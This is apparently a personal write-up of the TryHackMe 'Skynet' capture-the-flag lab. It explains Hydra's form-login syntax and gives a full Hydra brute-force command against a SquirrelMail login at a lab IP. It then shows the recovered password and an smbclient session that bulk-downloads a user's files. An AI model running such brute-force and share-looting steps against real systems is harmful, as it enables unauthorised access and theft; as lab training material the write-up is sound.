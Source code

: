                 9204224 blocks of size 1024. 5370044 blocks available

sidetracked for quite a while as i found full of machine learning related books in the books dir, got them copied out to my host XD haha

the attention.txt file
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

going into logs
log1 seems like a list of possible usernames

let's try to use hydra for logging in, got a great help from this page
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/

basically just do the following
Change the <Login page> this value has to start with “/” backspace.
Change <Request body> with the format from the page. We do need to modify the username and password. Replace the failed username with ^USER^ and the failed password with ^PASS^. This change will allow hydra to substitute the values.
Change the <Error Message> with the failed login error message.
Change the <IP Address> with either an IP address or hostname.
Change the <User> with either username or username list.
Change the <Password> with either a password or password list.

Layout of command: hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”

hydra -l milesdyson -P log1.txt 10.10.213.235 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

now we get the credentials as 
login: milesdyson   password: cyborg007haloterminator

kali@kali:~/oscptraining/tryhackme/Skynet$ smbclient //10.10.213.235/milesdyson -U milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.213.235\milesdyson\


side tracking to download shit for fun 
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget notes
getting file \notes\3.01 Search.md of size 65601 as 3.01 Search.md (17.9 KiloBytes/sec) (average 867.4 KiloBytes/sec)
getting file \notes\4.01 Agent-Based Models.md of size 5683 as 4.01 Agent-Based Models.md (4.2 KiloBytes/sec) (average 846.1 KiloBytes/sec)
getting file \notes\2.08 In Practice.md of size 7949 as 2.08 In Practice.md (5.7 KiloBytes/sec) (average 825.2 KiloBytes/sec)
getting file \notes\0.00 Cover.md of size 3114 as 0.00 Cover.md (2.1 KiloBytes/sec) (average 803.9 KiloBytes/sec)
